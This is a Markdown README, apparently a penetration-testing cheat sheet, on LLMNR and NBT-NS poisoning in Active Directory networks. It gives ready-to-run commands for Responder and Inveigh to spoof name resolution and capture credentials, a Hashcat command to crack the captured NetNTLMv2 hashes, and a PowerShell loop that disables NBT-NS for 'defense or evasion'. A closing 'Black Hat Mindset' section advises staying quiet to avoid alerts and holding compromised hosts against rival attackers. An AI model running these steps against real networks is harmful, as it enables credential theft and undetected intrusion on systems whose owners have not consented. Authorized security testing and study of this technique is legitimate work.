 # Active Directory LLMNR and NBT-NS Poisoning

This README explores techniques to exploit Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) weaknesses, capturing credentials via poisoning attacks.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Poisoning Attacks](#poisoning-attacks)
- [Hash Cracking](#hash-cracking)
- [Disabling NBT-NS](#disabling-nbt-ns)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

LLMNR and NBT-NS are protocols used to resolve hostnames when DNS fails. Misconfigured or unpatched systems can be tricked into sending credentials to a malicious server via poisoning. This guide covers Responder (Linux) and Inveigh (Windows) to perform these attacks, followed by hash cracking with Hashcat, and disabling NBT-NS for defense or evasion.

## Setup and Prerequisites

- **Environment**: Linux host for Responder, Windows host for Inveigh.
- **Responder**: Install on Linux (e.g., `apt install responder` on Kali).
- **Inveigh**: Download the PowerShell script (`Inveigh.ps1`) or C# executable from its GitHub repo and place it in your working directory (e.g., `C:\Tools\`).
- **Hashcat**: Install on Linux (e.g., `apt install hashcat`) and prepare a wordlist (e.g., `/usr/share/wordlists/rockyou.txt`).
- **PowerShell**: Run with administrative privileges on Windows (right-click > "Run as Administrator").
- **Network Access**: Ensure the host is on the target network to intercept traffic.

## Poisoning Attacks

Use these tools to poison LLMNR and NBT-NS requests and capture credentials.

```bash
responder -h  # Displays usage instructions and options for Responder on a Linux host (e.g., -I for interface, -r for SMB relay)
```

```powershell
Import-Module .\Inveigh.ps1  # Imports the Inveigh PowerShell script on a Windows host

(Get-Command Invoke-Inveigh).Parameters  # Outputs available options and functionality for Invoke-Inveigh (e.g., -LLMNR, -NBNS)

Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y  # Starts Inveigh with LLMNR and NBT-NS spoofing enabled

.\Inveigh.exe  # Runs the C# implementation of Inveigh to perform poisoning
```

## Hash Cracking

Crack captured NTLMv2 hashes using Hashcat.

```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt  # Uses Hashcat with mode 5600 (NetNTLMv2)
```

## Disabling NBT-NS

Disable NBT-NS to prevent poisoning or evade detection.

```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey | foreach { 
    Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose
}
```

## Black Hat Mindset

- **Exploit Weaknesses**: Target systems with disabled DNS or misconfigured name resolution for easy poisoning.
- **Capture Quietly**: Use Responder or Inveigh on a low-profile host to avoid triggering alerts.
- **Crack Efficiently**: Prioritize common passwords with a strong wordlist to quickly obtain credentials.
- **Control the Environment**: Disable NBT-NS on compromised hosts to prevent rival attackers from poisoning your foothold.

## Resources

- [Responder GitHub](https://github.com/lgandx/Responder)
- [Inveigh GitHub](https://github.com/Kevin-Robertson/Inveigh)
- [Hashcat Documentation](https://hashcat.net/wiki/)
- [LLMNR/NBT-NS Poisoning](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)

